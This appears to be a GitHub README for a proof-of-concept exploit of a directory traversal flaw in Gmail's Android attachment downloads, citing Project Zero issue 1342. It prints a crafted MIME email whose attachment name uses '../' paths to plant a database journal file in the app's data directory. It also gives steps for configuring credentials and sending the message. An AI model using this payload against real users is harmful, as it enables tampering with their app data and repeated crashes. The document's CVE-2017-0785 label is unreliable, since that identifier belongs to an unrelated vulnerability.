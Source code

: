 # Gmail Attachment Download Directory Traversal (CVE-2017-0785) Exploit

## Overview

This Python script demonstrates an exploit for a directory traversal vulnerability in attachment downloads within Gmail. The issue arises when handling attachments for non-Gmail accounts, allowing arbitrary files to be written to any location on the filesystem accessible to the Gmail app. It's important to note the following limitations:

1. The email address must belong to a non-Gmail and non-Gmailified (Hotmail or Yahoo) account.
2. The file cannot overwrite an existing file; it must be a file that doesn't already exist.
3. The user has to click to download the attachment, and the displayed path may look unusual on the screen.

Additionally, this vulnerability can be leveraged to modify an EmailProviderBody database by placing a journal file in the databases directory.

## Proof of Concept (PoC)

The provided Python script sends a malicious email to trigger this vulnerability. The email's Content-Type is set to multipart/mixed, and an audio attachment with a crafted filename exploits the directory traversal issue.

**Warning:** Using this PoC will cause Gmail to crash repeatedly, and you may need to re-install it to restore functionality.

```plaintext
Content-Type: multipart/mixed; boundary="---714A286D976BF3E58D9D671E37CBCF7C"
MIME-Version: 1.0
Subject: hello
To: <address>
From: natashenka@google.com

You will not see this in a MIME-aware mail reader.

------714A286D976BF3E58D9D671E37CBCF7C
Content-Type: text/html

<html><body><b>test</b></body></html>

------714A286D976BF3E58D9D671E37CBCF7C
Content-Type: audio/wav; name="../../../../data/data/com.google.android.gm/databases/EmailProviderBody.db-journal"
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="test"

2dUF+SChY9f/////AAAAABAAAAAAAQAAAAEAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAAAAA
... (base64-encoded data truncated for brevity)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGRyb2lkX21ldGFkYXRhYW5kcm9pZF9tZXRhZGF0YQNDUkVBVEUgVEFCTEUgAAAARlkAAABFSgAAAEs7AAAASSw=

------714A286D976BF3E58D9D671E37CBCF7C
```

## Usage

1. **Requirements:**
   - Python environment
   - Gmail accounts for sender (`FROM_ADDRESS`) and recipient (`TO_ADDRESS`)
   - Temporary password for the sender account (`YOUR_CREDENTIAL`)

2. **Configuration:**
   - Set `FROM_ADDRESS`, `YOUR_CREDENTIAL`, and `TO_ADDRESS` in the script.

3. **Run the Script:**
   - Execute the script to send the malicious email.

**Caution:** Use this script responsibly for educational purposes. Do not use it for unauthorized or malicious activities.

## Disclaimer

This exploit script is provided for educational and research purposes only. Usage for any illegal or unethical activities is strictly prohibited. The responsibility lies with the user, and the author disclaims any liability.

**Note:** This exploit targets a vulnerability that may have been patched since its disclosure. Use it in a controlled environment with the necessary permissions.

## Source
For more details, refer to the original [Project Zero Issue 1342](https://bugs.chromium.org/p/project-zero/issues/detail?id=1342).